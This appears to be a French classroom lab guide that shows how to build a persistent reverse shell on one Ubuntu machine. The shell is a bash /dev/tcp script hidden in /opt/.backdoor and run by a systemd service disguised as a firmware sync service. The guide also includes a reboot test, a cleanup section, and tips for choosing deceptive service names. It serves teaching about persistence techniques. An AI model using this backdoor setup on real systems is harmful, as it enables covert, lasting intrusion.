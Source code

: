 
#  TP avec **UNE SEULE MACHINE Ubuntu 22.04**








## Objectif

* Simuler un **reverse shell** avec un service systemd
* Utiliser **une seule machine Ubuntu 22.04**
* Ouvrir le listener (`nc -lvnp`) **localement**
* Prouver que le service fonctionne et persiste **même après redémarrage**

---

## 1. SCHÉMA DE TRAVAIL (SANS RÉSEAU EXTERNE)

```
+----------------------------------------+
|   MACHINE UBUNTU 22.04 UNIQUE          |
|                                        |
|  Terminal 1 :                          |
|     nc -lvnp 4444                      |
|                                        |
|  Terminal 2 (root) :                   |
|     systemd --> bash reverse vers 127.0.0.1:4444  |
+----------------------------------------+
```

---

## 2. ÉTAPES COMPLÈTES

---

### 2.1 Terminal 1 – Ouvrir le port localement (port 4444)

```bash
nc -lvnp 4444
```

Attendre. Ne rien fermer.

---

### 2.2 Terminal 2 – Créer le script malveillant

```bash
sudo mkdir -p /opt/.backdoor
sudo nano /opt/.backdoor/reverse.sh
```

Contenu du script :

```bash
#!/bin/bash
bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
```

Enregistrez. Puis :

```bash
sudo chmod +x /opt/.backdoor/reverse.sh
```

---

### 2.3 Créer le faux service systemd

```bash
sudo nano /etc/systemd/system/systemd-firmware.service
```

Contenu :

```ini
[Unit]
Description=Firmware Sync Service
After=network.target

[Service]
ExecStart=/opt/.backdoor/reverse.sh
Restart=always
RestartSec=5

[Install]
WantedBy=multi-user.target
```

---

### 2.4 Activer le service

```bash
sudo systemctl daemon-reload
sudo systemctl enable systemd-firmware
sudo systemctl start systemd-firmware
```

---

### 2.5 Observer le reverse shell (Terminal 1)

Si tout fonctionne, vous verrez :

```
Connection from 127.0.0.1
bash-5.1$
```

Vous êtes dans un shell **ouvert sur vous-même**, preuve que le service marche.

---

### 2.6 Reboot et test de persistance

```bash
sudo reboot
```

Une fois la machine redémarrée, ouvrez rapidement un terminal et tapez :

```bash
nc -lvnp 4444
```

Le shell réapparaît quelques secondes plus tard.
Le service s’est relancé **automatiquement**.

---

## 3. Nettoyage

```bash
sudo systemctl stop systemd-firmware
sudo systemctl disable systemd-firmware
sudo rm /etc/systemd/system/systemd-firmware.service
sudo rm -rf /opt/.backdoor/
sudo systemctl daemon-reload
```

---

## 4. Remarques pédagogiques

* **Pas besoin de réseau**, ni d’IP publique
* Parfait pour **TP local en salle** ou **autoformation**
* C’est un exemple de **persistence locale**
* Les étudiants **voient directement les effets** du service systemd
* Le nom du service peut être **déguisé** (`systemd-firmware`, `dbus-monitor`, etc.)

